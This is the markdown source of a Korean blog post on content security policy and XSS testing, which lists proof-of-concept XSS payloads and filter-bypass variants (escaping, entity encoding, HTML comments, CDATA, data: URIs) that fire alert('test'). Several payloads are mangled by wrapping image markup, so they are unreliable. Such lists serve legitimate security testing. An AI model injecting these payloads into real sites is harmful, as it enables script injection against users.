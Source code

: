 ```yaml
---
layout: post
title:  "CSP와 XSS테스트 코드"
summary: "사이트 간 스크립팅, 크로스 사이트 스크립팅"
author: yoo94
date: '2023-04-01 17:35:23 +0530'
category: WebSecurity
tags: websecurity
keywords: websecurity,csp,콘텐츠보안정책
thumbnail: https://i.namu.wiki/i/kq9NDC2Dsxbpqwn1L4dDwjo4fH7A9Rb76kbTrqpRirwq1VjPHDyr0Rp_P_Y0MhxFadKjqT5yBClhRDIWxapZNIdIrW8EkbT6KVv90O9wZqZ0ouYllY8gkIa39etQZDdg1d2fR6odJZ7_hYgF4FaLXg.webp
permalink: blog/XSS/
---
```


## CSP 콘텐츠 보안정책

<div style="display: flex; justify-content: center;">
  <img src="/blog/postImg/Pasted image 20240205203449.png" alt="Pasted image 20240205203449.png" style="max-width:100%;; height:70%;">
</div>

<div style="display: flex; justify-content: center;">
  <img src="/blog/postImg/Pasted image 20240205203510.png" alt="Pasted image 20240205203510.png" style="max-width:100%;; height:70%;">
</div>


#### xss테스트

테스트 방법
```text
<script>alert('test');</script>
<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:70%; height:70%;">
</div>
<a href="javascript:alert('test')">Click me</a>

--------------------------------------------------------

이스케이프(escaping) 우회 시도
<scr\ipt>alert('test');</scr\ipt>
<div style="display: flex; justify-content: center;">
  <img src=x onerror=ale&#x72t('test') style="width:70%; height:70%;">
</div>
<a href="jav&#x61script:alert('test')">Click me</a>

--------------------------------------------------------

이벤트 핸들러 우회 시도
<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:70%; height:70%;">
</div>
<div style="display: flex; justify-content: center;">
  <img src=x onerror="alert('test')" style="width:70%; height:70%;">
</div>
<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert\('test'\) style="width:70%; height:70%;">
</div>

--------------------------------------------------------

HTML 주석을 이용한 우회 시도
<!--<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:70%; height:70%;">
</div>-->
<!--><div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:70%; height:70%;">
</div><!-->
<![CDATA[<script>alert('test');</script>]]>

--------------------------------------------------------

스크립트 블록을 이용한 우회 시도:
<div style="display: flex; justify-content: center;">
  <img src=x onerror="javascript:alert('test')" style="width:70%; height:70%;">
</div>
<div style="display: flex; justify-content: center;">
  <img src=x onerror="data:text/html,<script style="width:70%; height:70%;">
</div>alert('test');</script>">

```

